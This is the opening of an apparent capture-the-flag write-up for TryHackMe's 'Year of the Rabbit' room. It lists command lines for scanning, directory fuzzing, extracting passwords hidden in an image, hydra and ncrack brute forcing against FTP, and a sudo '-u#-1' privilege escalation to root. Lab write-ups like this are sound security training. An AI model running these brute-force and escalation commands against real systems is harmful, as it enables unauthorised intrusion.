 # TryHackMe-Year of The Rabbit

**Scope:**

- SUDO
- FTP
- BrainFuck Programming Language

**Keywords:**

- Image Analysis
- Hidden Pages,
- BrainFuck Decoding
- Password Brute Force
- SUDO Version Vulnerability
- FTP Access Methods

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn $target_ip`
- `nmap -sS -Pn -p 21 -T4 -A -oN nmap_ftp_result.txt --script=ftp-anon $target_ip`
- `nmap --script ftp-* -p 21 -T4 -A -Pn -oN nmap_result_ftp_general.txt $target_ip`
- `wget -m ftp://anonymous:anonymous@yearoftherabbit.thm`
- `openssl s_client -connect yearoftherabbit.thm:21 -starttls ftp`
- `wfuzz -w /usr/share/wordlists/dirb/common.txt --hc 404,403,500,501,502,503 -c -t 50 http://yearoftherabbit.thm/FUZZ`
- `strings -n 6 Hot_Babe.png`
- `sed -n '1792,$p' Hot_Babe.png > password_ftp_user.txt`
- `hydra -l ftpuser -P password_ftp_user.txt -t4 -f ftp://yearoftherabbit.thm`
- `ncrack -u ftpuser -P password_ftp_user.txt ftp://yearoftherabbit.thm`
- `ftp yearoftherabbit.thm -p 21`
- `ssh -o MACs=hmac-sha2-256 eli@yearoftherabbit.thm -p 22`
- `ssh -o MACs=hmac-sha2-256 gwendoline@yearoftherabbit.thm -p 22`

**System Commands:**

- `mget *`
- `whoami`
- `find / -name "*s3cr3t*" 2>/dev/null`
- `sudo --version`
- `sudo -l`
- `sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt`

### Laboratory Environment

[Year of the Rabbit](https://tryhackme.com/r/room/yearoftherabbit)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn $target_ip`
